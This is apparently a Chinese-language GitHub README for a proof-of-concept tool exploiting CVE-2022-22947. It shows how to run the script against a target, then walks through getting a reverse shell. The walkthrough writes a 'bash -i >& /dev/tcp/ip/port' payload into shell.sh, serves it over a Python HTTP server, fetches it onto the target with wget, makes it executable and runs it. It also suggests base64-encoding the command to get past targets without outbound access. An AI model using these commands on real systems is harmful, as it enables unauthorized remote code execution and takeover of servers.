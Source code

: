 # 工具介绍

嘛。天天在外面跑项目，终于抽点时间研究一下这个漏洞的poc了。

就参考了一些大佬的工具，随便写了一个。辣鸡。大佬看着辣眼睛请绕过。

# 工具的使用

使用:

```
python CVE-2022-22947.py 目标 
```

![image-20220707112501119](images/image-20220707112501119.png)

反弹直接执行反弹shell的命令好像是没成功，如果不行而且出网其实还有很多方法可以用，比如下面这个方法。

我是先新建了一个shell.sh，然后在文件中写入反弹shell的命令。

```
bash -i >& /dev/tcp/ip/prot 0>&1
```

然后在shell.sh的目录下，用python开启一个http服务。

```
python3 -m http.server 8080
```

再然后用wget下载一个shell.sh。

```
wget http://xxxxx:8080/shell.sh
```

再再然后给一个文件的执行权限。

```
chmod +x shell.sh
```

最后执行shell.sh文件。

```
bash shell.sh
```

这样就把shell反弹出去了，当然了，这是目标要出网的，不出网的情况你当然可以使用使用echo命令把base64编码的命令写入到文件里，然后再base64 -d进行解码后在执行。
